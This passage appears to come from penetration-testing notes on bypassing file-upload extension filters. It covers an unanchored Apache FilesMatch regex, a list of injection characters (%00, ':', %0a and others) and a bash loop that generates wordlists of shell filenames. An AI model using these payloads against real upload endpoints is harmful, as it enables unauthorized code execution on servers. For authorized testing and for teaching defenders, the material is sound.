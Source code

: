 some exploit techniques my allow us to bypass this pattern but mostly rely on misconfigurations or outdated systems.\

#### Reverse Double Extension
In some cases the file upload functionality may not be vulnerable but web server configuration may be.
Check for open source web application which has upload functionality. 

For example, the `/etc/apache2/mods-enabled/php7.4.conf` for the `Apache2` web server may include the following configuration:
```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

above config determines which files are allowed to execute php code.
This particular regex pattern does not end the code $. 

our previous shell.php.jpg will pass the whitelist but will be able to execute php code as it has .php in its name. 

#### Character Injection 
We can inject several characters before or after the final extension to cause the webapp to misinterpret the filename and execute the uploaded file as a PHP script

```
    %20
    %0a
    %00
    %0d0a
    /
    .\
    .
    …
    :
```

Each character has specific use case. 
*%00 (shell.php%00.jpg)* works with php servers with 5.X or earlier as it causes php server to end file name after %00 and store file extension as **shell.php** 

**: (shell.aspx:.jpg)** works on windows servers and would case it to be writtes as **shell.aspx** 

Bash script to generate permutation of file name and jpg and php extensions
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
